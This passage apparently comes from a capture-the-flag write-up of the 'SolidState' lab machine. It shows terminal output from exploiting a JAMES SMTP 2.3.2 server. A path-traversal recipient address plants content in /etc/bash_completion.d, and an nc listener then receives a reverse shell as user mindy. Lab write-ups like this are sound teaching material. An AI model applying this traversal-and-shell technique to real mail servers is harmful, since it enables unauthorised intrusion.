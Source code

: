 ```
         errorMessagetLjava/lang/String: No such file or directory
-rbash: L
         lastUpdatedtLjava/util/Date: No such file or directory
-rbash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
-rbash: $'L\004nameq~\002L': command not found
-rbash: recipientstLjava/util/Collection: No such file or directory
-rbash: L: command not found
-rbash: $'remoteAddrq~\002L': command not found
-rbash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
-rbash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
-rbash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
-rbash: 0xdf@10.10.14.47>
Message-ID: <8915397.8.1588217962318.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
Received: from 10.10.14.47 ([10.10.14.47])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 252
          for <../../../../../../../../etc/bash_completion.d@localhost>;
          Wed, 29 Apr 2020 23:39:07 -0400 (EDT)
Date: Wed, 29 Apr 2020 23:39:07 -0400 (EDT)
FROM: 0xdf@10.10.14.47

: No such file or directory
-rbash: $'\r': command not found
mindy@solidstate:~$ ls
bin  user.txt

```

And I have a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.51.
Ncat: Connection from 10.10.10.51:49678.
id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)

```